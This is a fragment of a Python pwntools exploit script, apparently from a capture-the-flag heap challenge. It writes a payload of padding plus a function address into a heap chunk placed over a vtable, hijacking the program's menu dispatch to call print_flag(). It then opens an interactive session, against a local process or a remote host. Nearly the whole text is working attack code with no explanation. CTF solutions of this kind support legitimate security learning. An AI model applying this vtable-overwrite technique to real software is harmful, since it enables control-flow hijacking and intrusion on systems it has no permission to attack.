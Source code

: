 ```python

    # Allocate chunk at vtable
    malloc(8, p64(0xdeadbeef))
    
    # Overwrite first option in vtable with print_flag()
    print_flag = 0x0000000000400D51
    payload = "A"*56 + p64(print_flag)
    edit(2, 100, payload)

    # Calling print_flag()
    sla('Your choice:', '1')

    p.interactive()

if __name__ == "__main__":
    context.binary = exe

    if sys.argv[-1] == "remote":
        p = remote(host, port)
    else:
        p = process([exe.path])
        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    lg = lambda a : log.info(a)

    exploit(p)
```